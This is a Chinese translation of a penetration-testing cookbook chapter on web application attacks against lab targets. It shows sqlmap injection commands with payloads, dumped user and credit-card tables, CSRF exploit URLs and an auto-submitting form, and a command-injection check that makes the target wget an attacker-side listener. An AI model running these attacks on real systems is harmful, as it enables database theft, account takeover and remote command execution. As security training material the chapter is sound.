


# 第七章 Web 应用扫描（三）

> 作者：Justin Hutchens
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 7.13 使用 BurpSuite Sequencer（序列器）

Web 应用会话通常由会话 ID 标识来维护，它由随机或伪随机值组成。出于这个原因，随机性通常是这些应用的安全的关键。这个秘籍中，我们会讨论如何使用 BurpSuite Sequencer 来收集生成的值，并测试它们的随机性。

### 准备

为了使用 BurpSuite 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，你的 Web 浏览器需要配置来通过 BurpSuite 本地实例代理 Web 流量。关于将 BurpSuite 用作浏览器代理的更多信息，请参考第一章的“配置 BurpSuite”一节。

### 操作步骤

为了使用 BurpSuite Sequencer，响应必须包含`Set-Cookie`协议头，或者其它伪随机数的值，测试需要它们来发送。这可以通过HTTP 代理历史或者先于浏览器的响应拦截来完成，像这样：


Burp 会自动使用响应中的所有 Cookie 值填充 Cookie 下拉菜单。作为替代，你可以使用`Custom location`字段，之后点击`Configure`按钮来指定响应中的任何位置用于测试，像这样：


在确定需要测试的值之后，点击`Start live capture`按钮，这会开始提交大量请求来获得参数的附加值。这个例子中，Burp 会提交大量请求，并将 PHPSESSID 从请求中去除。这会导致服务器为每个请求生成新的会话标识。这样一来，我们就可以获得样本值，它们可以用于完成 FIPS 测试。FIPS 测试由一系列测试组成，它们会评估所生成的伪随机数的熵。所有这些测试会以图形格式展示，使其十分易懂，像这样：



对于高准确率和彻底的 FIPS 测试来说，总共需要 20000 个值。但是分析最少可以以 100 个值来执行。除了执行实时捕获之外，`Manual load`标签页可以用于为测试上传或粘贴值的列表。

### 工作原理

BurpSuite Sequencer 对伪随机数样本执行大量不同的数学评估，根据所生成随机数的熵尝试判断其质量。实时捕获可用于生成样本值，它通过提交事先构造的请求，并导致服务器指派新的值。这通常通过从请求中移除现有`Cookie`值，从而使响应以新的`Set-Cookie`协议头的形式，提供新的会话标识来完成。

## 7.14 使用 sqlmap 注入 GET 方法

Web 应用常常接受所提供 URL 内的参数。这些参数通常以 HTTP GET 方法传给服务器。如果任何这些参数随后包含在发给后端数据库的查询语句中，SQL 注入漏洞就可能存在。我们会讨论如何使用 sqlmap 来自动化 HTTP GET 方法请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了使用 sqlmap 来测试 HTTP GET 方法参数，你需要使用`-u`参数以及要测试的 URL。这个 URL 应该包含任何 GET 方法参数。此外，如果 Web 内容仅仅通过建立的会话来方法，还需要使用`--cookie`提供与会话对应的 Cookie。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 
 ** {CUT} ** 
sqlmap identified the following injection points with a total of 279 HTTP(s) requests: 
--
Place: GET 
Parameter: id
 Type: boolean-based blind 
 title: "OR boolean-based blind - WHERE or HAVING clause "
 Payload: id=-2345' OR (1644=1644) AND 'moHu'='moHu&Submit=y

 Type: error-based 
 title: "MySQL >= 5.0 AND error-based - WHERE or HAVING clause"

 Payload: id=x' AND (SELECT 1537 FROM(SELECT COUNT(*),CONCAT(0x3a6b6f 683a,(SELECT (CASE WHEN (1537=1537) THEN 1 ELSE 0 END)),0x3a696a793a,FLO OR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'VHVT'='VHVT&Submit=y

 Type: UNION query 
 title: "MySQL UNION query (NULL) - 2 columns "
 Payload: id=x' UNION ALL SELECT CONCAT(0x3a6b6f683a,0x7979634f4e716b7 55961,0x3a696a793a),NULL#&Submit=y

 Type: AND/OR time-based blind 
 title: "MySQL < 5.0.12 AND time-based blind (heavy query) "
 Payload: id=x' AND 5276=BENCHMARK(5000000,MD5(0x704b5772)) AND 'XiQP'='XiQP&Submit=y 
--

 ** {TRUNCATED} ** 
```

上面的例子使用了`risk`值`3`和`level`值`5`。这些值定义了所执行测试的风险性和彻底性。更多`risk`和`level`的信息请参考 sqlmap 手册页和帮助文件。执行测试时，sqlmap 会快速将后端数据库识别为 MySQL，并跳过其它测试。如果没有指定任何操作，sqlmap 会仅仅判断是否任何参数存在漏洞，像上个例子那样。在一系列注入尝试之后，sqlmap 判断出`ID`参数存在多种类型的 SQL 注入漏洞。在确认漏洞之后，sqlmap 会执行操作来提取后端数据库的信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dbs 
                            ** {CUT} ** 

--
[03:38:00] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron) 
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
[03:38:00] [INFO] fetching database names 
[03:38:00] [WARNING] reflective value(s) found and filtering out 
available databases [7]: 
[*] dvwa
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195
                            ** {TRUNCATED} ** 
```

在上面的例子中，`--dbs`参数用于枚举所有可用的，能通过 SQL 注入访问的数据库。通过名称来判断，它表明列出的数据库直接对应 DVWA 的应用。我们之后可以直接对数据库执行操作。为了提取 DWVA 数据库的所有表的名称，我们可以使用`--tables`参数来让 sqlmap 提取表名称，之后使用`-D`参数指定需要提取的数据库（`dvwa`）。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --tables -D dvwa 
                            ** {CUT} ** 
Database: dvwa 
[2 tables] 
+-----------+ 
| guestbook | 
| users     | 
+-----------+ 
                            ** {TRUNCATED} ** 
```

这样做，我们可以看到 DVWA 数据库中有两个表。这些表包括`guestbook`和`users`。用户表通常值得提取，因为它通常包含用户名和相关的密码哈希。为了从某个指定表中提取信息，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定提取哪个表的内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dump -D dvwa -T users 
                            ** {CUT} ** 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y 
[03:44:03] [INFO] using hash method 'md5_generic_passwd' 
what dictionary do you want to use?
[1] default dictionary file './txt/wordlist.zip' (press Enter) 
[2] custom dictionary file 
[3] file with list of dictionary files 
> 
[03:44:08] [INFO] using default dictionary 
do you want to use common password suffixes? (slow!) [y/N] N 
                                ** {CUT} ** 
Database: dvwa 
Table: users 
[5 entries] 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| user_id | user    | avatar                                                 | password                                    | last_name | first_name | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| 1       | admin   | http://192.168.223.132/dvwa/hackable/users/admin. jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 
| 2       | gordonb | http://192.168.223.132/dvwa/hackable/users/gordonb. jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 
| 3       | 1337    | http://192.168.223.132/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 
| 4       | pablo   | http://192.168.223.132/dvwa/hackable/users/pablo. jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 
| 5       | smithy  | http://192.168.223.132/dvwa/hackable/users/smithy. jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
                                ** {TRUNCATED} **
```

在识别表的内容中存在密码哈希之后，sqlmap 会提供选项，询问用户是否使用内置的密码破解器来对枚举密码哈希执行字典攻击。这可以使用内置单词列表，自定义单词列表，或者一系列单词列表来执行。在执行字典攻击之后，我们可以看到表的内容包含用户 ID，用户头像的位置，MD5 哈希，哈希的纯文本附加值（盐），以及用户姓名。

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP GET 参数上执行 SQL 注入非常繁琐，因为修改内容要经过请求 URL 。

## 7.15 使用 sqlmap 注入 POST 方法

sqlmap 是 Kali 中的集成命令行工具，它通过自动化整个流程，极大降低了手动利用 SQL 注入漏洞所需的经历总量。这个秘籍中，我们会讨论如何使用 sqlmap 来自动化 HTTP POST 请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

为了在使用 HTTP POST 方法的服务上指定 SQL 注入，我们需要使用`--data`参数来指定 POST 参数字符串。Mutillidae 的登录应用提供了一个登录页面，它通过 POST 方法传递用户名和密码。它就是我们的 SQL 注入攻击目标。看看下面的例子：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --level=5 --risk=3 
 ** {CUT} ** 
sqlmap identified the following injection points with a total of 267 HTTP(s) requests:
--
Place: POST 
Parameter: username    
 Type: boolean-based blind 
 title: "OR boolean-based blind - WHERE or HAVING clause (MySQL comment) "
 Payload: username=-8082' OR (4556=4556)#&password=pass&login-phpsubmit-button=Login

 Type: error-based 
 title: "MySQL >= 5.0 AND error-based - WHERE or HAVING clause "
 Payload: username=user' AND (SELECT 3261 FROM(SELECT COUNT(*),CONCAT( 0x3a61746d3a,(SELECT (CASE WHEN (3261=3261) THEN 1 ELSE 0 END)),0x3a76676 23a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x) a) AND 'MraR'='MraR&password=pass&login-php-submit-button=Login 
--
[04:14:10] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
 ** {TRUNCATED} ** 
```

如果没有指定操作，sqlmap 仅仅会判断是否任何参数存在漏洞，像上面的例子那样。在一系列注入尝试之后，sqlmap 判断出用户名 POST 参数存在`boolean-blind`和`error-based`漏洞。在确认漏洞之后，sqlmap 会执行操作，开始从后端数据库提取信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dbs 
                        ** {CUT} ** 
available databases [7]: 
[*] dvwa 
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195 
                        ** {TRUNCATED} **
```

在上面的例子中，`--dbs`参数用于枚举所有可用的，可通过 SQL 注入访问的数据库。我们随后可以对特定数据库直接执行操作。为了提取`owasp10`数据库中的所有表的名称，我们可以使用`--tables`参数让 sqlmap 提取表名称。之后使用`-D`参数来指定从哪个数据库（`owasp10`）提取名称。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --tables -D owasp10 
                    ** {CUT} ** 
Database: owasp10 
[6 tables] 
+----------------+ 
| accounts       | 
| blogs_table    | 
| captured_data  | 
| credit_cards   | 
| hitlog         | 
| pen_test_tools | 
+----------------+ 
                    ** {TRUNCATED} ** 
```

这样做，我们就可以看到，`owasp10`数据库中存在六个表。这些表包含`accounts, blog_table, captured_data, credit_cards, hitlog, and pen_test_tools`。最明显的表名称是`credit_cards`。为了提取某个指定表的内容，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定从哪个表中提取内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dump -D owasp10 -T credit_cards 
                    ** {CUT} ** 
Database: owasp10 
Table: credit_cards 
[5 entries] 
+------+-----+------------------+------------+ 
| ccid | ccv | ccnumber         | expiration | +------+-----+------------------+------------+ 
| 1    | 745 | 4444111122223333 | 2012-03-01 |
| 2    | 722 | 7746536337776330 | 2015-04-01 | 
| 3    | 461 | 8242325748474749 | 2016-03-01 | 
| 4    | 230 | 7725653200487633 | 2017-06-01 | 
| 5    | 627 | 1234567812345678 | 2018-11-01 | +------+-----+------------------+------------+ 
                    ** {TRUNCATED} **
```

### 工作原理

sqlmap 的原理是提交来自大量已知 SQL 注入查询列表的请求。它在近几年间已经高度优化，并给予之前查询的响应来智能调整注入。在 HTTP POST 参数上执行 SQL 注入的原理是操作添加到 POST 方法请求末尾的数据。

## 7.16 使用 sqlmap 注入捕获的请求

为了简化 sqlmap 的使用流程，可以使用来自 BurpSuite 的捕获请求并使用定义在其中的所有参数和配置来执行 sqlmap。在这个秘籍中，我们会讨论如何使用 sqlmap 来测试和所捕获请求相关的参数。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了在 sqlmap 中使用捕获的请求，必须首先将其保存为文本格式。为了这样做，右击 BurpSuite 中的请求内容之后选择`Copy to file`。保存之后，你就可以通过浏览器目录并使用`cat`命令来验证文件内容。

```
root@KaliLinux:~# cat dvwa_capture 
GET /dvwa/vulnerabilities/sqli_blind/?id=test_here&Submit=Submit HTTP/1.1
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/sqli_blind/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
Connection: keep-alive 
```

为了使用捕获的请求，以 `-r`参数执行 sqlmap，值为文件的绝对路径。这个方式通常会极大降低在`sqlmap`命令中需要提供的信息量，因为需要提供的多数信息都包含在文件里了。看看下面的例子：

```
oot@KaliLinux:~# sqlmap -r /root/dvwa_capture --level=5 --risk=3 -p id
[*] starting at 16:44:09
[16:44:09] [INFO] parsing HTTP request from '/root/dvwa_capture' 
```

在上面的例子中，不需要向 sqlmap 传递任何 Cookie 值，因为 Cookie 值已经定义在捕获的请求中了。当 sqlmap 运行时，捕获文件中的 Cookie 会自动在所有请求中使用，像这样：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection points with a total of 487 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind 
    title: "OR boolean-based blind - WHERE or HAVING clause    "
    Payload: id=-8210' OR (7740=7740) AND 'ZUCk'='ZUCk&Submit=Submit

    Type: UNION query    
    title: "MySQL UNION query (NULL) - 2 columns    "
    Payload: id=test_here' UNION ALL SELECT NULL,CONCAT(0x3a6f63723a,0x67 744e67787a6157674e,0x3a756c753a)#&Submit=Submit

    Type: AND/OR time-based blind    
    title: "MySQL < 5.0.12 AND time-based blind (heavy query)    "
    Payload: id=test_here' AND 4329=BENCHMARK(5000000,MD5(0x486a7a4a)) AND 'ARpD'='ARpD&Submit=Submit 
```

sqlmap 能够测试捕获请求中的所有识别的 GET 方法参数。这里，我们可以看到，`ID`参数存在多个 SQL 注入漏洞。

### 工作原理

sqlmap 能够接受捕获的请求，来解析请求的内容并是被任何可测试的参数。这让 sqlmap 能够高效执行，而不需要花费额外的经历来传递攻击所需的所有参数。

## 7.17 自动化 CSRF 测试

跨站请求伪造（CSRF）是最难以理解的 Web 应用漏洞之一。无论如何，不能够识别这类漏洞会危害 Web 应用和它的用户。这个秘籍中，我们会讨论如何测试 GET 和 POST 方法中的 CSRF 漏洞。

### 准备

为了对目标执行 CSRF 测试，你需要拥有运行一个或多个含有 CSRF 漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

CSRF 可能会出现在 GET 或 POST 方法的事务中，DVWA 提供了 GET 方法 CSRF 漏洞的一个良好示例。应用允许用户通过 GET 方法提交新的值两次来更新密码。

```
GET /dvwa/vulnerabilities/csrf/?password_new=password&password_ conf=password&Change=Change HTTP/1.1 
Host: 172.16.36.135 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/csrf/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
```

由于缺少 CSRF 控制，我们尝试利用这个漏洞。如果 Web 应用的用户被引诱来访问某个 URL，其中含有预先配置的`password_ new`和`password_ conf`值，攻击者就能强迫受害者将密码修改为攻击者的选择。下面的 URL 是个利用的示例。如果受害者访问了这个链接，它们的密码会被修改为`compromised`。

```
http://172.16.36.135/dvwa/vulnerabilities/csrf/?password_ new=compromised&password_conf=compromised&Change=Change#
```

但是，这种可以简单利用的 CSRF 漏洞很少存在。这是因为多数开发者对安全拥有起码的终止，不会使用 GET 方法参数来执行安全事务。POST 方法 CSRF 的一个例子是 Mutillidae 应用的 `blog`功能，像这样：

```
POST /mutillidae/index.php?page=add-to-your-blog.php HTTP/1.1 
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/mutillidae/index.php?page=add-to-your-blog. php 
Cookie: username=Victim; uid=17; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7 b0c 
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 98

csrf-token=SecurityIsDisabled&blog_entry=This+is+my+blog+entry&add-toyour-blog-php-submit-button=Save+Blog+Entry
```

上面的例子中，我们可以看到，验证用户所提交的`blog`入口通过`blog_entry`POST 方法参数传递。为了利用这个 CSRF 控制的缺失，攻击者需要构造恶意页面，它能导致受害者提交所需的参数。下面是个 POST 方法 CSRF 攻击的例子：

```
<html> 
<head>        
    <title></title> 
</head> 
<body>        
    <form name="csrf" method="post" action="http://172.16.36.135/ mutillidae/index.php?page=add-t$                
        <input type="hidden" name="csrf-token" value="SecurityIsDisabled" />                
        <input type="hidden" name="blog_entry" value="HACKED" />                
        <input type="hidden" name="add-to-your-blog-phpsubmit-button" value="Save+Blog+Entr$        
    </form>        
    <script type="text/javascript">                
        document.csrf.submit();        
    </script> </body> </html> 
```

这个恶意 Web 页面使用了 HTML 表单，它将多个隐藏的输入字段返回给服务器，这些字段对应 Mutillidae 应用的`blog`入口提交请求所需的相同输入。此外，JS 用于提交表单。所有这些事情在受害者不执行任何操作的情况下就会发生。考虑下面的例子：

```
root@KaliLinux:~# mv CSRF.html /var/www/ 
root@KaliLinux:~# /etc/init.d/apache2 start 
[....] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName 
. ok
```

为了部署这个恶意 Web 内容，应该将其移动到 Web 根目录下。在 Kali 中，默认的 Apache Web 根目录是`/var/www/`。同样，确保 Apache2 服务已打开。像这样：


当验证后的受害者浏览器恶意页面时，受害者会自动重定向到 Mutillidae 博客应用，并提交博客入口`HACKED`。

### 工作原理

CSRF 的成因是请求最终由用户的会话生成。这个攻击利用受害者浏览器已经和远程 Web 服务器建立连接的信任。在 GET 方法 CSRF 的例子中，受害者被诱导访问某个 URL，其中的参数为恶意事务而定义。在 POST 方法 CSRF 的例子中，受害者被诱导浏览定义了参数的页面，这些参数随后会由受害者的浏览器转发给漏洞服务器，来指定恶意事务。在每个例子中，事务由于请求来自受害者的浏览器而被执行，受害者已经和漏洞服务器建立了可信的会话。

## 7.18 使用 HTTP 流量验证命令注入漏洞

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 Web 服务器日志或自定义 Web 服务脚本来确认命令执行漏洞。

### 准备

为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统和 Web 服务器交互，我们就能够验证 Web 应用中的命令注入漏洞。日志可以作为漏洞服务器和它交互的证据。作为替代，可以编写一个自定义脚本来生成一个临时的 Web 服务，它可以监听外部连接，并打印接收到的请求。下面的 Python 代码完成了这件事情：

```
#!/usr/bin/python
import socket
httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
httprecv.bind(("0.0.0.0",8000)) 
httprecv.listen(2)

(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip 
data = client.recv(4096) 
print str(data)

client.close() 
httprecv.close() 
```

一旦执行脚本，我们需要强迫目标服务器和监听服务交互，来确认命令注入漏洞。DWVA 应用拥有`ping`功能，可以用于 ping 一个指定 IP 地址。用户输入直接传递给系统调用，可以修改来执行底层 OS 的任意命令、我们可以通过使用分号来添加多个命令，每个命令依次排列，像这样：



在上面的例子中，输入用于 ping `127.0.0.1`，并且对`http://172.16.36.224:8000`执行`wget`。`wget`请求对应临时的 Python 监听服务。在提交输入后，我们可以通过参考脚本的输入来验证命令执行：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* Host: 172.16.36.224:8000 
Connection: Keep-Alive 
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。

## 7.19 使用 ICMP 流量 来验证命令注入

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 ICMP 流量来编写用于确认命令执行漏洞的自定义脚本。

### 准备

为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统发送 ICMP 流量给监听服务，我们可以验证 Web 应用中的命令注入漏洞。接收到的 ICMP 回响请求可以用于识别漏洞系统。下面是一段 Python 代码，使用 Scapy 库来实现：

```
#!/usr/bin/python

import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR) 
from scapy.all import *

def rules(pkt):   
    try:      
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):         
            print str(pkt[IP].src) + " is exploitable"   
    except:      
        pass

print "Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening"

sniff(lfilter=rules,store=0)
```

在 ICMP 监听器执行之后，我们需要尝试从漏洞服务器向监听服务发送 ICMP 回响请求。这可以通过将`ping`命令注入到存在命令注入漏洞的用户输入来完成。在 Mutillidae 中，执行 DNS 枚举的功能存在漏洞，它直接将用户输入传递给系统调用。通过使用分号，单独的`ping`请求可以追加到用户输入后面。


假设服务器存在命令注入漏洞，Python 监听器会提示收到了 ICMP 回响请求，而且目标服务器可能存在漏洞。

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
172.16.36.135 is exploitable
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。